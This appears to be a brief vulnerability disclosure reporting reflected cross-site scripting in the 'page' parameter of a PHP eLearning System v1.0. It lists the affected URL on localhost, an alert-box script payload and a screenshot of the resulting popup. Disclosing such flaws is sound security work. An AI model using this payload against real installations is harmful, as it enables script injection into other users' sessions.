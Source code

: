# eLearning System – reflected XSS on (faculty/?page=XX) 
# Vendor Homepage:
https://www.sourcecodester.com/php/14787/elearning-system-using-phpmysqli-source-code.html 
Version:V1.0
Tested on: PHP, Apache, MySQL
# Affected Page:
faculty/?page=XX 
On this page,page parameter is vulnerable to reflected XSS Attack 
# Proof of vulnerability:
Visit this page：http://localhost/elearning/faculty/?page=student
# Payload：
</script><script>alert(1)</script>
# Trigger popup：
<img width="416" alt="image" src="https://github.com/qqqyc/vuln/assets/53200267/d6ee0783-b6fc-4ecd-9318-666437a41477">

